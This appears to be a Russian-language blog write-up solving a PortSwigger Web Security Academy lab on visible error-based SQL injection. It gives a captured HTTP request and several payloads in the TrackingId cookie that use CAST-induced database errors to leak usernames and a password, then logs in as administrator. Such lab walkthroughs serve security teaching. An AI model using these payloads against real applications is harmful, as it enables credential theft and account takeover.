 ```yaml
---
title: "Visible error-based SQL injection"
date: 2025-06-20
tags: [sqli, writeup, web]  
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based"
---
```


В данной лабе присутствует **Error based SQL injection** в параметре `Cookie`. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.

```
https://0a75008704f2164580726c3600ac0013.web-security-academy.net/
```

## Solution

Так как уязвимость в `Cookie`, то возьму `GET`-запрос с выставленными значениями.

```http
GET / HTTP/2
Host: 0a75008704f2164580726c3600ac0013.web-security-academy.net
Cookie: TrackingId=dUrA4au9zQX6dlb5; session=5UhSQKjfJwXutcIvFyn3RNseuyAD7ybb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a75008704f2164580726c3600ac0013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Скорее всего уязвимым является параметр `TrackingId`. Подберу обрамелние и пейлоад:

```
dUrA4au9zQX6dlb5'-- -Error
```

Я получил следующую ошибку с описанием:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/1.png){: height="200" .align-center}

Из текста видно, что для обрамления используются одинарные кавычки. Тогда подберу пейлоад:

```
dUrA4au9zQX6dlb5' or false-- -Ok
dUrA4au9zQX6dlb5' or true-- -Ok
dUrA4au9zQX6dlb5' and false-- -Ok
dUrA4au9zQX6dlb5' and true-- -Ok
```

Обрамление работает, но содержимое не отображается. Попробую специально вызывать ошибку с помощью `CAST`:

```
dUrA4au9zQX6dlb5' and 1=CAST((SELECT 'a') AS int)-- -Error
```

Я получил следующую ошибку:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/2.png){: height="200" .align-center}

Попробую получить имена пользователей:

```
' and 1=CAST((SELECT username FROM users) AS int)-- -Error
```

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/3.png){: height="200" .align-center}

Из сообщения видно, что в БД лежит больше одного логина, поэтому я использую `LIMIT`, чтобы получать значения по одному:

```
' and 1=CAST((SELECT username FROM users LIMIT 1) AS int)-- -
```

Получил следующий ответ:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/4.png){: height="200" .align-center}

Достану пароль таким же образом:

```
' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/5.png){: height="200" .align-center}

Пароль получен: `oar4hhxs5cflalzuprmh`. Попробую зайти в аккаунт администратора:

![IMG](/assets/images/IMG_union_sqli/IMG_Visible-error-based-SQL-injection/6.png){: height="200" .align-center}

Лаба решена:3
